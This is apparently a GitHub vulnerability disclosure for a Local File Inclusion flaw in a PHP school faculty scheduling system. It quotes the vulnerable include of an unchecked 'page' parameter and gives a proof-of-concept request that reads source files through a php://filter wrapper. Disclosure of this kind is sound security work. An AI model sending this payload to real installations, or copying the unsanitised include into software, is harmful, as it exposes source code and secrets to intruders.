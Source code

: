 # Local File Inclusion in School Faculty Scheduling System

## Vendor Homepage:
> https://www.campcodes.com/projects/php/school-faculty-scheduling-system-using-php-mysql-free-download/

## Affected Component
> /admin/index.php

## Code
```php
  <main id="view-panel" >
<?php $page = isset($_GET['page']) ? $_GET['page'] :'home'; ?>
<?php include $page.'.php' ?>
  </main>
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /scheduling/admin/index.php?page=php://filter/convert.base64-encode/resource=index HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://localhost/scheduling/admin/login.php
Cookie: csrftoken=hn6Cf393SZVS43NE14nv2rYENzlA2dLXNthZqmVXNw6j1t0dOvrk3n8kgQeKAnBn; PHPSESSID=d3aau3jei5d0ketkecnsk6mivf
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
```

## Screenshot
![image](https://github.com/user-attachments/assets/d0b85e40-79b4-405a-b916-750793c57b50)
![image](https://github.com/user-attachments/assets/77b48757-0296-4044-9766-f42a1c2ae6c6)



## **Credits**
> [John Alan Correche](https://github.com/shaturo1337)

